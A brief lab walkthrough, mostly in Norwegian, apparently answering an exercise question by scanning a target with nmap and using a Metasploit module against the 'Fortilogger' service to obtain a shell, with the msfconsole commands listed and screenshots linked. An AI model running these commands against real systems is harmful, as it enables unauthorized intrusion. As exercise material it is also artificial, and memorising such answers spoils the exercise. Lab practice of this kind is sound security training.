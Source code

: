 ## Question: Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

For å løse denne gjør jeg en rask nmap scan på domenet. Jeg finner prosessen jeg kan exploite, som er "Fortilogger"


`search fortilogger`
<br>
`use 0`
<br>
`set RHOTS *ip*`
<br>
`set LHOST tun0`
<br>
`run`

<br>
<br>

![hacking](https://user-images.githubusercontent.com/83395536/194724526-3ab048e5-345d-493a-9a4b-5a5f0b61d166.png)
<br>
![hack3](https://user-images.githubusercontent.com/83395536/194724534-4c0c569a-65c7-430c-b289-9a2c12f39181.png)
<br>
![hack2](https://user-images.githubusercontent.com/83395536/194724535-dc59360b-0745-4899-9e90-252eeff910e7.png)

